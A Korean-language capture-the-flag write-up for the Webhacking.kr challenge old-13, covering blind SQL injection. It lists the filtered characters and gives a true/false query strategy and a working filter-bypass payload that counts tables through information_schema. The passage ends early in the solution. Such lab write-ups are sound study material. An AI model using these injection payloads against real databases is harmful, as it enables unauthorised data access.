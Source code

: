 ```yaml
---
title: ["[Webhacking.kr] old-13 (sqli - 100)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, blind sqli, blackbox]
---
```

## Intro

![문제 설명](assets/img/writeup/webhacking.kr/old-13/recon.png)

또 블랙박스 SQLi다.  
`no` 파라미터를 받으며, `no=1`일때 result가 1이고, 다른 값일때는 0이다.  
해당 기능을 사용해서 Blind SQLi를 수행할 수 있다.  

## Analysis

```mysql
SELECT count(id) FROM TBLNAME WHERE no=1
```  
화면에 출력되는 result를 보면, 내부의 쿼리문이 위와 같을 것이라고 추론해볼 수 있다.  

우리는 어떤 문자들이 필터링되고, 어떤 문자들이 사용가능한지 알아봐야 한다.  

`+`, `-`, `=`, `like`, `and`, `where`  
`%20`, `%0a`, `%0b`, `%0c`, `%0d`, `/**/`  
등이 필터링되어 있다.  

```mysql
SELECT count(id) FROM TBLNAME WHERE no=(0)or(1) # 쿼리가 참인 경우, result에 1이 출력
SELECT count(id) FROM TBLNAME WHERE no=(0)or(0) # 쿼리가 거짓인 경우, result에 0이 출력
```
기본적인 전략은 위와 같이 구상할 수 있다.  

먼저, 데이터를 조회하기 위한 테이블명을 먼저 조회해야 한다.  

```
(0)or(select(count(if((select(table_schema)in(database())),table_name,null)))from(information_schema.tables))in(2)
```  

database에 테이블이 2개임을 알 수 있다.  
